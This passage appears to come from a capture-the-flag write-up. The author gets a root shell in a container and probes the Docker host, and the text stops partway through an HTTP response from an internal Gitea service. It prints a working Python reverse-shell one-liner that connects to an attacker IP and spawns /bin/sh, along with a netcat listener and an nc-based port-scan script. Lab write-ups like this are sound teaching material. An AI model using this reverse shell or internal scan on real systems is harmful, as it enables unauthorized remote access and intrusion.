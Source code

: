 

From there I could use Python to get a reverse shell.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.143",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```


```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.111.246 47276
/bin/sh: can't access tty; job control turned off
/app # whoami
root
/app #
```

## Getting Access to the Host Machine

I was in as root, but I was in a container. I needed to find a way to the main machine. I looked around the container but did not find anything I could use. I got LinPEAS on it, still nothing. 

Netcat was on the machine, so I wrote a small script to scan the host for opened ports. 

```python
import os

for i in range(65535):
        command = f"nc -v -z -n -w 1 172.17.0.1 {i}"
        os.system(command)
```

```bash
/tmp # python scan.py
172.17.0.1 (172.17.0.1:22) open
172.17.0.1 (172.17.0.1:80) open
172.17.0.1 (172.17.0.1:3000) open
172.17.0.1 (172.17.0.1:6000) open
172.17.0.1 (172.17.0.1:6001) open
172.17.0.1 (172.17.0.1:6002) open
172.17.0.1 (172.17.0.1:6003) open
172.17.0.1 (172.17.0.1:6004) open
172.17.0.1 (172.17.0.1:6005) open
172.17.0.1 (172.17.0.1:6006) open
172.17.0.1 (172.17.0.1:6007) open
```

Port 80 and 6000 to 6007 were web servers for the same app I already found. Just on different containers. 

Port 3000 was more interesting. 

```
tmp # nc 172.17.0.1 3000
GET / HTTP/1.1
Host: 172.17.0.1
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Set-Cookie: i_like_gitea=74190fd626c44532; Path=/; HttpOnly; SameSite=Lax
Set-Cookie: _csrf=0tuDhFAnT48O7MznGqBi3iGn2Gw6MTY1NDM0NDM3NDAyODkyNzU4Nw; Path=/; Expires=Sun, 05 Jun 2022 12:06:14 GMT; HttpOnly; SameSite=Lax
Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
X-Frame-Options: SAMEORIGIN
Date: Sat, 04 Jun 2022 12:06:14 GMT
Transfer-Encoding: chunked

```